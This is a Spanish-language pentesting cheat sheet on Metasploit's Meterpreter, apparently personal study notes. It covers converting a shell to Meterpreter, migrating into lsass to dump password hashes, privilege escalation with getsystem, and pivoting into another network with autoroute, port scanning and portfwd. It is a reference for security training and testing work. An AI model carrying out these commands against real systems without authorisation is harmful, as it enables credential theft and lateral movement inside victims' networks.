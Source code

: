 # Meterpreter

Tags: #Comandos #Meterpreter #Pivoting 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 

❯ sessions -l                # Miramos las sesiones activas, l (ele) = Listar 
❯ sessions -i <ID>           # Usar la sesion con Meterpreter
```

## Comandos con Meterpreter

```bash 
# Migrar a un proceso con mayores privilegios para tener un 'Meterpreter x64/Windows'

❯ hashdump                   # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 


❯ sysinfo                    # Muestra informacion del Windows 
❯ getuid                     # Miramos el nombre del usuario 
❯ getprivs                   # Miramos los  procesos con privilegios 
❯ getsystem                  # Miras los procesos privilegiados 
❯ pgrep explorer             # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc            # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
	❯ exit                  # Para salir de la sesion de 'Shell' y regresar a la sesion de 'Meterpreter'
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 
```

## Para hacer Pivoting con Metasploit (Traes puertos individuales de la maquina victima)

```bash 
❯ arp                                     # Barrido ARP en la direccion IP dentro de Meterpreter, podremos ver las IP de las maquinas en otra red con las que se comunica la primer maquina victima
❯ shell                                   # Coloque una 'shell' 
	❯ ipconfig                           # Mirar la IP de nuestra interfaz 
	❯ Ctrl + z                           # Regresamos a la sesion de Meterpreter 

1. Agregar la IP a la tabla de ruteo en Meterpreter y la conectividad es dentro de Metasploit
❯ run autoroute -s IP.0/24                # Agregas la IP a la tabla de ruteo para alcanzar la nueva red

2. Te sales de la sesion y puedes ver la tabla de ruteo
❯ Ctrl + z                                # Poner en background la sesion
❯ route print                             # Mirar la tabla de ruteo 

3. Fuera de la sesion usas el scanner para ver los puertos de la maquina agregada
❯ use auxiliary/scanner/portscan/tcp      # Hacer escaneo con Nmap
	❯ options 
	❯ set ports 1-1000                # Escanearemos los primero 1000 puertos 
	❯ set rhosts <IP>                 # Colocamos la IP de la maquina a la que no llegabamos porque estaba en otra red
	❯ run 

4. Haremos PortForwarding para tener conectividad fuera del Metasploit, los siguientes comandos los debemos de hacer dentro de la sesion de Meterpreter
❯ sessions ID                          # Usas la sesion con Meterpreter 
❯ portfwd add -l 2233 -p 445 -r IP     # IP es del nuevo hosts el cual no podiamos alcanzar, l = El puerto a abrir en nuestra maquina de atacante, p = Puerto de la maquina victima a traer
	❯ nmap -p2233 localhost           # Ahora podemos hacer Nmap desde nuestra consola 
```